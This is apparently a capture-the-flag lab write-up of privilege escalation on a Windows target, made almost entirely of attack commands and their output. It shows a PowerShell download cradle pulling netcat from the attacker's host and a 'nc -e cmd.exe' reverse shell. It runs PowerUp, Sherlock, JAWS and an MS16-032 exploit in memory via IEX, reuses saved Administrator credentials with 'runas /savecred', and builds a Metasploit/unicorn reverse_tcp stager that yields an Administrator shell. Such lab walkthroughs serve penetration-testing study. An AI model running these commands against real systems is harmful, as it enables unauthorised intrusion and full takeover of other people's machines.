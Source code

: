 #### 4.1. NC reverse shell
```
> powershell IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.21:6666/nc64.exe', 'nc64.exe')
> echo C:\temp\nc64.exe 10.10.14.21 9999 -e cmd.exe | powershell -ExecutionPolicy UnRestricted -noprofile -
```
Note: ignore the PS warning


#### 4.2. Privilege escalation scripts
```
# wget -q https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/PowerUp.ps1
# wget -q https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
# wget -q https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1
# echo 'Invoke-AllChecks' >> PowerUp.ps1
# echo 'Find-AllVulns' >> Sherlock.ps1
# echo 'JAWS-ENUM' >> jaws-enum.ps1
```


#### 4.3. Executing PS scripts on target
```
>echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.21:8888/PowerUp.ps1') | powershell -noprofile -
>echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.21:8888/Sherlock.ps1') | powershell -noprofile -
>echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.21:8888/jaws-enum.ps1') | powershell -noprofile -
```


#### 4.4. Failed attempts

Kernel exploit:
```
# wget https://www.exploit-db.com/download/39719.ps1
# echo 'Invoke-MS16-032' >> 39719.ps1
# echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.21:8888/39719.ps1') | powershell -noprofile -
```

Privileges for `ZKAccess` - `searchsploit`:
```
C:\ZKTeco>icacls ZKAccess3.5Z
KAccess3.5 
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
BUILTIN\Users:(I)(CI)(AD)
BUILTIN\Users:(I)(CI)(WD)
CREATOR OWNER:(I)(OI)(CI)(IO)(F)
Successfully processed 1 files; Failed processing 0 files
```


#### 4.5. Re-using saved credentials (from `jaws-enum.ps1` results)
```
> C:\Windows\System32\runas.exe /savecred /user:Administrator "cmd.exe /C whoami > C:\temp\output.txt 2>&1"
> C:\temp>type output.txt
access\administrator
```


#### 4.6 RunAs `Administrator` to escalate privileges

Prep:
```
# ./unicorn.py windows/shell/reverse_tcp 10.10.14.21 4000
# mv powershell_attack.txt data && python -m SimpleHTTPServer 4001 &
# msfconsole -r unicorn.rc
```

Run:
```
>C:\Windows\System32\runas.exe /savecred /user:Administrator "cmd.exe /C echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.21:4001/data') | powershell -noprofile -"
```

Result:
```
msf5 exploit(multi/handler) > 10.10.10.98 - - [21/Nov/2018 00:41:07] "GET /data HTTP/1.1" 200 -

[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.98
[*] Command shell session 1 opened (172.17.0.2:4000 -> 10.10.10.98:49169) at 2018-11-21 00:41:09 +0000
```


#### 4.7. `Administrator` shell
```
msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
C:\Windows\System32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
6e1586cc7ab230a8d297e8f933d904cf
```
